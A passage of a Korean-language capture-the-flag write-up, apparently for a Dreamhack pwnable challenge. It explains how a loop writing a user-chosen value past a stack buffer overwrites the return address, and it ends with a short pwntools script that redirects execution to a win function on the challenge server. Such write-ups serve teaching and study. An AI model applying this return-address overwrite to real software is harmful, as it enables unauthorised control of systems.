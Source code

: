 gdb로 더 확실히 파악해보는 것이 중요하지만 일단 여기서는 대부분 `rbp`에 `1`이 대입되어 있고 바로 뒤에 `return_address`가 존재하기 때문에 이렇게 거의 확실히 예측할 수 있다.

gdb로도 한번 확인해보면 `scanf`의 인자에 저장되어 있는 `name`의 주소에 저장된 값들을 4칸 출력해서 `BACKTRACE`의 `return_address`와 비교해보면 위의 예상과 딱 맞는 것을 확인할 수 있다.

참고로, `libc_start_main`은 `libc`에 존재하기 때문에 `PIE`가 적용되지 않아도 `ASLR`으로 인해서 계속 주소가 랜덤화 된다. (대신 페이지 오프셋을 나타내는 하위 3바이트는 고정)

<img width="524" alt="image" src="https://github.com/user-attachments/assets/ee9411d5-cdfa-48d6-a929-44757e24877b">

<img width="508" alt="image" src="https://github.com/user-attachments/assets/52ad6451-e8fb-4264-9ccf-6dc3ccf80563">

<img width="987" alt="image" src="https://github.com/user-attachments/assets/1ae07af2-afa3-4d36-adde-d606183648fd">

그럼 이제, `return_address`에 위에서 출력으로 확인한 `win`의 주소를 넣으면 되겠다는 것을 생각하며 계속 코드를 살펴보자.

바로 아래를 보면, `scanf("%lx%c", &value);`를 통해 `hex` 형식으로 입력을 받아서 `value`에 대입해준다. `%c`는 버퍼에 남아있는 `\n`을 날리기 위한 것으로 꼭 필수적이진 않다는거 참고만 하자. (어쩌피 뒤에서 `%c`가 아닌 `%d`로 받기 때문에 `\n`이 무시되기 때문이다.)

그리고 아래의 반복문에서 사용할 `count`를 입력 받고, `value`를  `name + idx * 8`이 가리키는 값에 대입해준다.

```c
for (idx = 0; idx < count; idx++)
{
  *(long *)(name + idx * 8) = value;
}
```

여기서 `BOF` 취약점이 발생해서, `count = 3`일 때 `return_address`를 가리키기 때문에 `value`에 앞에서 출력한 `win`의 주소를 대입해서 `return_address`로 대입해주면 익스플로잇을 성공할 수 있다.

**따라서, `value`에서는 앞에서 출력한 `win`의 주소를 대입해주고, `count`에는 최소 `4`를 입력해주면 된다.** 

참고로 안전하게는 `count = 4`이고, 값을 더 키워줘도 너무 키워져서 존재하지 않는 주소에 대입하는거 아니면 `win`에서 `exit`를 통해 종료해서 해당 주소는 참조하지 않으므로 괜찮다.

<br>

## Exploit

주의할 점은, `value`를 `%lx`로 받기 때문에, `0x~~` 형식인 `hex(win_addr)`로 전달해줘야 한다. (`p64`로 하면 안됨)

```py
from pwn import *

p = remote('host3.dreamhack.games', 18735)

p.recvuntil(b' function (')
win_addr = int(p.recvn(8), 16)

p.sendlineafter(b'name: ', b'a')
p.sendlineafter(b'hex value: ', hex(win_addr)) 
p.sendlineafter(b'integer count: ', b'4')

p.interactive()
```
